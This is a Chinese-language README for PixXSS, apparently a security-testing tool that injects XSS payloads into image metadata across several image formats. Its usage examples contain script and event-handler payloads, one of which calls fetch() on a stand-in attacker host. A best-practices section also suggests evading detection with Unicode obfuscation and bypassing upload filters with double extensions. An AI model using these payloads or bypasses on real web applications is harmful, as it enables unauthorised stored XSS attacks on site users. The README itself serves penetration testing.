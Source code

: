 # PixXSS - 图片元数据XSS注入工具

![Python](https://img.shields.io/badge/Python-3.6+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)

## 工具简介

PixXSS 是一个专业级的图片元数据注入工具，专为安全研究人员设计，用于在图片文件的各类元数据字段中注入XSS负载。该工具支持多种图片格式和元数据类型，能够帮助安全人员测试Web应用对恶意图片的防护能力。

## 功能特性

✅ **多格式支持**  
- JPEG, PNG, GIF, WEBP, TIFF, HEIF, AVIF等主流图片格式

✅ **全面元数据覆盖**  
- EXIF, IPTC, XMP等标准元数据
- PNG特有的tEXt/zTXt/iTXt块
- GIF注释扩展块

✅ **高级功能**  
- 支持批量处理多个文件
- 可选择特定元数据字段或注入全部字段
- 支持从文件或命令行直接读取payload
- 保留原始文件或输出到新文件
- 完整的执行日志记录

✅ **专业特性**  
- 自动检测exiftool依赖
- 完善的错误处理和日志系统
- 支持Unicode字符集
- 详细的帮助文档

## 安装与依赖

### 系统要求
- Python 3.6+
- exiftool (自动检测并提示安装方法)

### 安装方法
```bash
git clone https://github.com/your-repo/PixXSS.git
cd PixXSS
pip install -r requirements.txt
```

## 使用说明

### 基本用法
```bash
python PixXSS.py -I input.jpg JPEG -payload "<script>alert(1)</script>" --all
```

### 参数说明
| 参数                      | 说明                                   |
| ------------------------- | -------------------------------------- |
| `-I FILE FMT`             | 输入文件及格式(如: image.jpg JPEG)     |
| `-payload PAYLOAD`        | 直接指定XSS负载                        |
| `--payload-file FILE`     | 从文件读取XSS负载                      |
| `-o OUTPUT`               | 输出文件路径                           |
| `--all`                   | 注入所有支持的元数据字段               |
| `--FORMAT-METATYPE-FIELD` | 指定特定字段注入(如: --PNG-tEXt-Title) |

### 示例场景

1. **测试Web图片上传漏洞**
```bash
python PixXSS.py -I avatar.png PNG --payload "<svg/onload=alert(1)>" --PNG-tEXt-Description
```

2. **批量处理多张图片**
```bash
python PixXSS.py -I img1.jpg JPEG -I img2.png PNG --payload-file xss.txt --all
```

3. **针对性测试特定CMS**
```bash
python PixXSS.py -I banner.webp WEBP --payload "<img src=x onerror=fetch('https://attacker.com')>" --WEBP-XMP-dc_title
```

## 技术细节

### 支持的元数据类型
```python
SUPPORTED_FORMATS = {
    "JPEG": ["EXIF", "IPTC", "XMP"],
    "PNG": ["tEXt", "zTXt", "iTXt", "XMP"],
    # ...其他格式支持...
}
```

### 日志系统
- 实时控制台输出
- 自动记录到pixxss.log文件
- 详细调试信息

## 最佳实践

1. **靶场测试**
- 先在本地环境测试payload有效性
- 使用不同图片格式验证目标系统解析差异

2. **规避检测**
- 尝试在较少被检查的字段注入(如UserComment)
- 使用Unicode字符混淆payload

3. **高级技巧**
- 结合多字段注入增加成功率
- 使用图片双扩展名绕过过滤(如image.jpg.php)

## 免责声明

本工具仅限用于合法安全测试和研究目的。使用者需确保已获得目标系统的测试授权，未经授权使用本工具造成的任何后果由使用者自行承担。

